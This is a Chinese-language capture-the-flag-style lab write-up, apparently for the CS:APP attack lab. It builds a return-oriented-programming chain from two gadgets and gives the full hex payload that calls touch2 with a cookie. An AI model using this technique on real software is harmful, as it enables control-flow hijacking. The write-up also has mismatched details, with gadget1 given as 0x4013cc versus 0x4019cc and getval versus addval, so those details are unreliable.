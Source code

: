 其中的58 90 c3正好是popq %rax; nop; retq的16进制字节码。

我们可以将这段字节码作为gadget，将栈上的值弹出到%rax寄存器中。

然后我们需要找到一个gadget，将%rax寄存器的值复制到%rdi寄存器中。

可以在getval_273中找到
```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```

其中的48 89 c7正好是movq %rax, %rdi的16进制字节码。

后面还刚好跟了一个c3。这正是我们需要的gadget。

最后我们要执行的指令为：
```asm
#gadget1, 起始地址0x4019cc
pop %rax 
nop
retq

#gadget2, 起始地址0x4019a2
movq %rax, %rdi
retq
```

栈中要填入的数据从低地址到高地址依次为：
```
低[0x5561dc78,0x5561dca0): 40个字节的填充字符
  [0x5561dca0,0x5561dca8): gadget1的首地址0x4013cc
  [0x5561dca8,0x5561dcb0): cookie的值0x59b997fa
  [0x5561dcb0,0x5561dcb8): gadget2的首地址0x4019a2
高[0x5561dcb8,0x5561dcc0): touch2的首地址0x4017ec
```

注意下小端序，依次构造即可。

最后要注入的字符串为：
```
00 00 00 00 00 00 00 00 /* 四十个填充字节 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

cc 19 40 00 00 00 00 00 /* gadget1的首地址，小端序 */

fa 97 b9 59 00 00 00 00 /* cookie的值，小端序 */

a2 19 40 00 00 00 00 00 /* gadget2的首地址，小端序 */

ec 17 40 00 00 00 00 00 /* touch2的首地址，小端序 */
```
